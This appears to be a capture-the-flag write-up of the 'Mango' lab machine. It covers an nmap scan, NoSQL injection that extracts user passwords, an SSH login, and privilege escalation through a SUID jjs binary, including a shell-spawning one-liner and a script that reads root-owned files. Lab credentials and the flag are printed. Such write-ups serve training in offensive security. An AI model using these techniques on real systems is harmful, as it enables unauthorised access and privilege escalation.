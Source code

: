 ## Mango

| Name   |      Description |  
|----------|:------------- |
| Machine IP |  10.10.10.162 |
|Difficulty |    Medium   |


## Scanning

### Nmap scanning

```bash
$ nmap -sC -sV -oA nmap/mango 10.10.10.162     
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-01 15:10 EDT
Nmap scan report for 10.10.10.162
Host is up (0.10s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: Host: 10.10.10.162; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.86 seconds
```



## Enumeration

- Homepage `Port 443`
- Just a search engine but nothing interesting found.

![homepage](images/homepage.PNG)

- Found a domain name from nmap scan `staging-order.mango.htb`, add it to `hosts` file.
- Homepage `PORT:80`

![homepage_login](images/homepage_login.PNG)

- Found a login page, sql injection failed. and tried `nosql injection`

- Request

```http
POST / HTTP/1.1
Host: staging-order.mango.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
Origin: http://staging-order.mango.htb
Connection: close
Referer: http://staging-order.mango.htb/
Cookie: PHPSESSID=7g6se536upk1on0tirpb4nrsjv
Upgrade-Insecure-Requests: 1

username=admin&password=asdasd&login=login
```

- Found a [script](https://book.hacktricks.xyz/pentesting-web/nosql-injection) to extract username and passwords






## Exploitation

- upon running the program, found usernames `admin` and `mango`
- And password for `mango` is found `h3mXK8RhU~f{]f5H`

```bash
─$ python3 nosql.py
Extracting password of mango
Found password h3mXK8RhU~f{]f5H for username mango
```

> Make sure to modify the program to extract password for specific user, eventhough program, does it manually, admin user takes long time and did not yeild any result

- Using this to login to `ssh`



```bash
$ ssh mango@10.10.10.162     
The authenticity of host '10.10.10.162 (10.10.10.162)' can't be established.
ECDSA key fingerprint is SHA256:AhHG3k5r1ic/7nEKLWHXoNm0m28uM9W8heddb9lCTm0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.162' (ECDSA) to the list of known hosts.
mango@10.10.10.162's password: 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-64-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Oct  1 19:52:10 UTC 2021

  System load:  0.01               Processes:            103
  Usage of /:   25.8% of 19.56GB   Users logged in:      0
  Memory usage: 14%                IP address for ens33: 10.10.10.162
  Swap usage:   0%

 * Kata Containers are now fully integrated in Charmed Kubernetes 1.16!
   Yes, charms take the Krazy out of K8s Kata Kluster Konstruction.

     https://ubuntu.com/kubernetes/docs/release-notes

 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

122 packages can be updated.
18 updates are security updates.


Last login: Mon Sep 30 02:58:45 2019 from 192.168.142.138
mango@mango:~$ id
uid=1000(mango) gid=1000(mango) groups=1000(mango)
```

- logged in as `mango` user.

## Privilege escalation

- Running `linpeas` resulted in a `SUID` binary

![suid](images/suid.PNG)

- `gtfobins` has `jjs` that can be used to execute `/bin/sh` with `sudo` privilege

- But with `mango` user we are unable to execute as the user is not in `sudoer`, but looking at the `users`, found another user `admin`, now run the exploit to extract password for user `admin`

```bash
mango@mango:/tmp$ echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/bash -c \$@|sh _ echo sh <$(tty) >$(tty) 2>$(tty)').waitFor()" | sudo jjs
[sudo] password for mango: 
mango is not in the sudoers file.  This incident will be reported.
```

```bash
mango@mango:/home$ ls
admin  mango
```

```bash
$ python3 nosql.py 
Extracting password of admin
Found password t9KcS3>!0B#2 for username admin
```

- switch the user from `mango` (the password extracted is not `ssh's` password.)

```bash
mango@mango:/home/admin$ su admin
Password: 
$ id
uid=4000000000(admin) gid=1001(admin) groups=1001(admin)
```



- Since the `admin` user is also not a `sudoer`, we can use the `jjs` binary to read and `write` files. for eg. read `root.txt`, write our `ssh` public key to `/root/.ssh/authorized_keys`


```bash
admin@mango:/tmp$ echo 'var BufferedReader = Java.type("java.io.BufferedReader");
> var FileReader = Java.type("java.io.FileReader");
> var br = new BufferedReader(new FileReader("/root/root.txt"));
> while ((line = br.readLine()) != null) { print(line); }' | jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> var BufferedReader = Java.type("java.io.BufferedReader");
jjs> var FileReader = Java.type("java.io.FileReader");
jjs> var br = new BufferedReader(new FileReader("/root/root.txt"));
jjs> while ((line = br.readLine()) != null) { print(line); }
09e8f09f11c8336318b388447942546b
```






